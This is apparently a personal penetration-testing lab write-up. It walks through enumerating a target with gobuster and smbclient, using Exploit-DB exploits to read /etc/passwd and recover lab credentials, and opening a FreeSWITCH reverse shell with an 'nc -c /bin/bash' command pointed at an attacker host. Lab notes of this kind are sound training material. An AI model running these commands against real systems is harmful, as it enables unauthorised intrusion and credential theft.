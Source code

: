 - Ran `gobuster dir -u http://192.168.114.240 -w //usr/share/dirb/wordlists/big.txt` to identify any available web directories - identified "backup" folder
![[Cybersecurity-Resources/images/Pasted image 20241017200202.png]]
- Ran `gobuster dir -u http://192.168.114.240/backup -w //usr/share/dirb/wordlists/big.txt -x php,html,txt` to identify files in `backup`
![[Cybersecurity-Resources/images/Pasted image 20241017202348.png]]
## Port 139 & 445 - Netbios SSN (Samba 4.9.5-Debian)
- Identified Samba 4.9.5: potentially vulnerable to CVE-2021-44142
- Identified smb service, and ran `smbclient -L //192.168.114.240 -U guest` to connect as `guest` without a password and list all available shares - identified share `guest`
![[Cybersecurity-Resources/images/Pasted image 20241017195423.png]]
- Ran `smbclient \\\\192.168.114.240\\backup` to connect to share `guest` as user `guest` and listed share contents with `ls`
![[Cybersecurity-Resources/images/Pasted image 20241017203531.png]]
## Port 3000 - HTTP (Thin httpd)
- Navigated to `http://192.168.114.240:3000` and identified `Cassandra version 3.11.13`
![[Cybersecurity-Resources/images/Pasted image 20241017194241.png]]
- Identified entry for `system_schema.keyspaces`
![[Cybersecurity-Resources/images/Pasted image 20241017202047.png]]
- Identified entry for `system.local`
![[Cybersecurity-Resources/images/Pasted image 20241017201839.png]]
- Identified entry for `system_schema.columns`
![[Cybersecurity-Resources/images/Pasted image 20241017202250.png]]
- Identified potential exploit [49362](https://www.exploit-db.com/exploits/49362) and attempted file-read access on target machine with `python3 49362.py -p 3000 192.168.114.240 /etc/passwd` - identified users `cassie` and `anthony`
![[Cybersecurity-Resources/images/Pasted image 20241017210233.png]]
- Ran exploit again with `python3 49362.py -p 3000 192.168.114.240 /proc/self/cmdline` to identify credentials `cassie:SecondBiteTheApple330`
![[Cybersecurity-Resources/images/Pasted image 20241017211001.png]]
- Ran exploit again with `python3 49362.py -p 3000 192.168.114.240 /etc/freeswitch/autoload_configs/event_socket.conf.xml` to identify `Freeswitch` password `StrongClueConEight021`
![[Cybersecurity-Resources/images/Pasted image 20241017212201.png]]
## Port 8021 - freeswitch
- Ran NMap and identified `freeswitch` service running on port `8021`
---
# Exploitation
- Identified `freeswitch` potentially vulnerable to exploit [47799](https://www.exploit-db.com/exploits/47799) , saved locally as `freeswitch-exploit.py`
	- Updated `freeswitch-exploit.py` to replace default password "ClueCon" with "StrongClueConEight021"
![[Cybersecurity-Resources/images/Pasted image 20241017212354.png]]
- Saved `freeswitch-exploit.py` and ran `python3 freeswitch-exploit.py 192.168.114.240 whoami`
![[Cybersecurity-Resources/images/Pasted image 20241017212609.png]]
- Started netcat listener on port `80`, then ran exploit again with `python3 freeswitch-exploit.py 192.168.114.240 'nc -c /bin/bash 192.168.45.154 80'` to establish reverse shell
![[Cybersecurity-Resources/images/Pasted image 20241017214317.png]]
- Ran `find / -name local.txt -type f 2>/dev/null` to identify `local.txt`, and ran `cat /var/lib/freeswitch/local.txt` to print `6e79f3911c9a13321d9d94e2e621b593`
---